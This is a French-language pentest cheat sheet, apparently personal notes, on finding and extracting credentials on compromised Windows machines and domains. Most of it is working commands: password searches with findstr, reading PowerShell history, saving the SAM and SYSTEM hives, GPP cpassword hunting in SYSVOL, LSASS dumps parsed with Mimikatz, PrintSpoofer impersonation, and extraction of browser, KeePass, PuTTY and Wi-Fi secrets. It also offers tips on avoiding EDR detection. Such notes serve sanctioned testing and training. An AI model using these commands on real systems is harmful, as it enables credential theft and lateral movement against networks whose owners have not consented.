

## 1. Fichiers de configuration et scripts

La recherche de credentials dans les fichiers de configuration repose sur l'analyse de fichiers texte ou XML contenant des chaînes de caractères explicites.

### Recherche par mots-clés
Utiliser **findstr** pour identifier des fichiers contenant des mots de passe en clair.

```bash
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
findstr /spin "password" *.*
```

### Analyse des fichiers IIS
Les fichiers de configuration IIS contiennent souvent des chaînes de connexion SQL ou des identifiants SMTP.

```powershell
C:\inetpub\wwwroot\web.config
```

### Fichiers Unattend.xml
Ces fichiers, utilisés pour l'automatisation du déploiement Windows, peuvent contenir des credentials en clair ou encodés en Base64.

> [!danger] Risque de détection
> La lecture de fichiers dans `C:\Windows\Panther\` peut être surveillée par les solutions EDR.

```xml
<AutoLogon>
    <Username>Administrator</Username>
    <Password>
        <Value>local_4dmin_p@ss</Value>
        <PlainText>true</PlainText>
    </Password>
</AutoLogon>
```

## 2. Historique et sessions utilisateur

L'analyse des traces laissées par les utilisateurs permet souvent de récupérer des commandes exécutées avec des privilèges élevés.

### Historique PowerShell
Depuis PowerShell 5.0, l'historique est conservé dans un fichier spécifique.

```powershell
# Vérifier le chemin de sauvegarde
(Get-PSReadLineOption).HistorySavePath

# Lire le contenu
gc (Get-PSReadLineOption).HistorySavePath

# Rechercher dans tous les profils utilisateurs
foreach($user in (Get-ChildItem C:\Users\).Name){
    Get-Content "C:\Users\$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt" -ErrorAction SilentlyContinue
}
```

### Credentials PowerShell (Export-Clixml)
Les objets **PSCredential** exportés via **Export-Clixml** sont protégés par **DPAPI**.

```powershell
$cred = Import-Clixml -Path 'C:\scripts\pass.xml'
$cred.GetNetworkCredential().username
$cred.GetNetworkCredential().password
```

> [!warning] Limitations DPAPI
> Les fichiers protégés par **DPAPI** sont liés à l'utilisateur et à la machine : inexploitable hors contexte.

## 3. Extraction de secrets via SAM/SYSTEM hives
Si vous disposez de privilèges administrateur, vous pouvez extraire les hashes locaux en copiant les ruches du registre.

```cmd
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
reg save HKLM\SECURITY security.save
```
Une fois les fichiers extraits, utilisez **impacket-secretsdump** ou **Mimikatz** (voir **Mimikatz**) pour parser les hashes.

## 4. Analyse des GPP (Group Policy Preferences) - cpassword
Les anciennes politiques de groupe stockaient des mots de passe chiffrés (AES) dans des fichiers XML sur le SYSVOL.

```powershell
# Rechercher les fichiers Groups.xml contenant le tag cpassword
Get-ChildItem -Path "\\<DOMAIN>\SYSVOL" -Filter "Groups.xml" -Recurse | Select-String "cpassword"
```
Le mot de passe peut être déchiffré via **gpp-decrypt** ou **PowerSploit** (Get-GPPPassword), car la clé AES est publique.

## 5. Recherche de credentials dans les scripts de login (SYSVOL)
Les scripts de connexion (batch, VBS, PowerShell) stockés dans le partage SYSVOL contiennent parfois des credentials en clair pour le mappage de lecteurs réseau.

```bash
# Recherche récursive sur le partage SYSVOL
dir \\<DOMAIN>\SYSVOL\*.bat /s /b
dir \\<DOMAIN>\SYSVOL\*.ps1 /s /b
findstr /SIM /C:"password" \\<DOMAIN>\SYSVOL\*.*
```

## 6. Extraction de credentials via LSASS (dump mémoire)
Le processus `lsass.exe` stocke les credentials en mémoire (tickets Kerberos, NTLM hashes).

> [!warning] Risque EDR
> L'utilisation d'outils comme **Mimikatz** ou **SharpDPAPI** déclenche souvent les EDR.

```cmd
# Création d'un dump via Task Manager (GUI) ou via procdump
procdump.exe -ma lsass.exe lsass.dmp
```
Le fichier `lsass.dmp` peut ensuite être analysé hors ligne avec **Mimikatz** :
`sekurlsa::minidump lsass.dmp` puis `sekurlsa::logonpasswords`.

## 7. Analyse des tokens d'accès et impersonation
Si vous avez des privilèges élevés (SeImpersonatePrivilege), vous pouvez voler des tokens d'autres processus.

```cmd
# Vérifier les privilèges actuels
whoami /priv

# Utilisation de PrintSpoofer ou RoguePotato pour l'impersonation
.\PrintSpoofer.exe -c "cmd.exe"
```
Voir **Privilege Escalation Windows** pour les techniques d'impersonation via **Active Directory Enumeration**.

## 8. Credentials enregistrés et outils tiers

Les applications tierces stockent fréquemment des identifiants dans le registre ou des bases de données locales.

### Gestionnaire d'identifiants Windows (CMDKEY)
La commande **cmdkey** permet de lister les identifiants stockés pour les connexions réseau ou RDP.

```cmd
cmdkey /list
```

L'utilisation de **runas** avec l'option **--savecred** permet d'exécuter des commandes sans redemander le mot de passe.

```powershell
runas /savecred /user:DOMAIN\username "cmd.exe"
```

### Analyse des applications
| Outil | Méthode d'extraction |
| :--- | :--- |
| **Chrome** | `.\SharpChrome.exe logins /unprotect` |
| **KeePass** | `python2.7 keepass2john.py fichier.kdbx > hash.txt` |
| **PuTTY** | `reg query "HKCU\SOFTWARE\SimonTatham\PuTTY\Sessions"` |
| **WiFi** | `netsh wlan show profile "<SSID>" key=clear` |
| **Sticky Notes** | `Invoke-SqliteQuery -Database .\plum.sqlite -Query "SELECT Text FROM Note"` |

> [!tip] Attention aux faux positifs
> Lors de la recherche par mots-clés, le volume de résultats peut être important. Prioriser les fichiers de configuration et les logs.

## 9. Automatisation et outils spécialisés

L'utilisation d'outils automatisés permet de couvrir un spectre plus large de vecteurs d'attaque.

| Outil | Usage |
| :--- | :--- |
| **WinPEAS** | Énumération post-exploitation locale |
| **Snaffler** | Recherche de fichiers sensibles en réseau |
| **SessionGopher** | Extraction de sessions RDP, PuTTY, WinSCP |
| **LaZagne** | Extraction automatique de mots de passe (navigateurs, bases de données) |
| **MailSniper** | Recherche de mots-clés dans Outlook |

> [!note] Prérequis
> Toujours vérifier les permissions (ACL) avant de tenter une lecture de fichier sensible pour éviter de générer des alertes inutiles.

Voir également : **Mimikatz**, **Active Directory Enumeration**, **Privilege Escalation Windows**, **DPAPI Attacks**.
```